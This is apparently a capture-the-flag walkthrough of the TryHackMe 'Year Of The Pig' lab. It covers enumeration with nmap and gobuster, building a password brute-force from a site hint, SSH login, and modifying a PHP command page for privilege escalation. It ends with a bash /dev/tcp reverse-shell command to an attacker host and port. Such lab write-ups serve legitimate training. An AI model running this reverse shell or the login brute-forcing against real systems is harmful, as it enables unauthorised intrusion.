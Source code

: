 # Capture The FLag
[THM] Year Of The Pig Walkthrough

Start with a simple nmap scan:

sudo nmap -sV -A $IP

![Screenshot 2020-10-12 001215](https://user-images.githubusercontent.com/72692401/95679646-fb9fb780-0c1f-11eb-9c54-bb4e65bbe84f.png)


See that there are two opened ports: 
- http:80
- ssh:22

Enumerate website, it is about Marco's blog, so marco could possibly a username that we should keep in min. At the same time, I run gobuster against the website to find hidden directories if exist. 

![homepage](https://user-images.githubusercontent.com/72692401/95679871-571e7500-0c21-11eb-98e5-cf590d279e00.png)

O GET FLAG1.TXT

Recall gobuster, found that there are some other hidden directories but we are interested in the first one (But I think we shouldn't ignore the rest when enumerating, we are better to check all of them).

![gobuster](https://user-images.githubusercontent.com/72692401/95679743-9c8e7280-0c20-11eb-9813-eab78537d097.png)

Let's visit that directory. Hmm, it looks like we need to find credentials to login. I try to login with marco:marco and failed. However, the website returns us a password hint.

![login](https://user-images.githubusercontent.com/72692401/95680061-82559400-0c22-11eb-8951-143d59d87204.png)

Do you remember marco blog page? He tells us a lot about his hobby which is all about planes and his favorite planes. Therefore, we can list them into the "a memorable word" referred to the password hint.

- A possible memorable word: marco, plane, planes, savoia, macchi, flying.

The password hint also mentioned about there are 2 numbers and a special character at the end of it. Until now, I think that I should try creating a simple python script to bruteforce login credentials. (I had included the script in github page site as well, for saving your time, I had removed some invalid combinations) (I'm really sorry because the script is not well-organized and is bad).

![login](https://user-images.githubusercontent.com/72692401/95680440-7f0fd780-0c25-11eb-9eaf-1225623b50f7.png)

After successfully login, I immediately click onto "COMMANDS" page without any thinking and checking other pages !!!. 

I try different commands and also try escaping command filtering but it keeps returning "Invalid Command!". This could be a trap.

However, you remember that we have another port is opening, which is 22:ssh, I successfully login with the credentials that we found previously and read "flag1.txt"

![login](https://user-images.githubusercontent.com/72692401/95681024-525dbf00-0c29-11eb-8ccf-6f4390291964.png)

o GET FLAG2.TXT

Listing home directory, there is another user is curtis, maybe I have to find a way to compromise this user.
I tried to enumerate more about the current user and found that he belongs to "web-developers" group. The ability of this group is reading and writing files in "/var/www/html/admin/*". (linpeas is a very outstanding tool for enumerating linux.) (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

In "/var/www/", I see a file called admin.db and I also realize that website using "sqlite3" to access to that database, which could possibly contain curtis's credentials.

Running "sqlite3 admin.db" returns "a permission denied" because the file is only readable and writable by "www-data". The attack vector is very straightfoward, we need to modify "commands.php" located in "/var/www/html/admin/commands.php" and get a reverse shell as "www-data".

All we need to do is changing line 52 as followed, we can run any commands that we want to.

![invalid](https://user-images.githubusercontent.com/72692401/95681747-52f85480-0c2d-11eb-8ab2-ca7410a68810.png)

Comeback to admin site -> commands -> running: bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1' and establish nc listening, we should get a reverse shell as "www-data"!


















